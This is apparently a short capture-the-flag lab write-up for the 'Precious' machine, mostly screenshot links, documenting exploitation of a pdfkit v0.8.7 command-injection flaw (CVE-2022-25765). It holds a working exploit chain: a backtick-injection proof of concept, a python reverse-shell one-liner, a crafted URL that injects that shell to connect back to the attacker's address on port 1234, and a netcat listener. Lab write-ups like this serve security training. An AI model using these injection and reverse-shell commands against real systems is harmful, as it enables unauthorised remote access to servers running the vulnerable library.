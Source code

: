 # Precious

ip==10.10.11.189

tun0==10.10.14.26
![](images/2023-02-22-22-48-07.png)

![](images/Screenshot_2023-02-21_04_38_17.png)
![](images/Screenshot_2023-02-21_04_38_41.png)
![](images/Screenshot_2023-02-21_05_39_45.png)
![](images/Screenshot_2023-02-21_05_40_31.png)
`pdfkit v0.8.7`

CVE found

![](images/Screenshot_2023-02-21_05_41_10.png)

[Command Injection in pdfkit | CVE-2022-25765 | Snyk](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

```php
irb(main):060:0> puts PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").command wkhtmltopdf --quiet [...] 

"http://example.com/?name=%20`sleep 5`" - => nil

PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait...
```

python建立http服务器
```
    python -m http.server 8080
```
[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

http://10.10.14.26:8080/?name=%20`python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.26",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
```
```
nc -lvnp 1234 
```

![](images/Screenshot_2023-02-21_05_44_14.png)
![](images/Screenshot_2023-02-21_05_45_55.png)
![](images/Screenshot_2023-02-21_05_45_56.png)
![](images/Screenshot_2023-02-21_07_42_18.png)
![](images/Screenshot_2023-02-21_07_46_40.png)
![](images/Screenshot_2023-02-21_07_54_23.png)
![](images/Screenshot_2023-02-21_08_02_08.png)
![](images/Screenshot_2023-02-21_08_04_14.png)
![](images/Screenshot_2023-02-21_08_08_20.png)
![](images/Screenshot_2023-02-21_08_10_34.png)
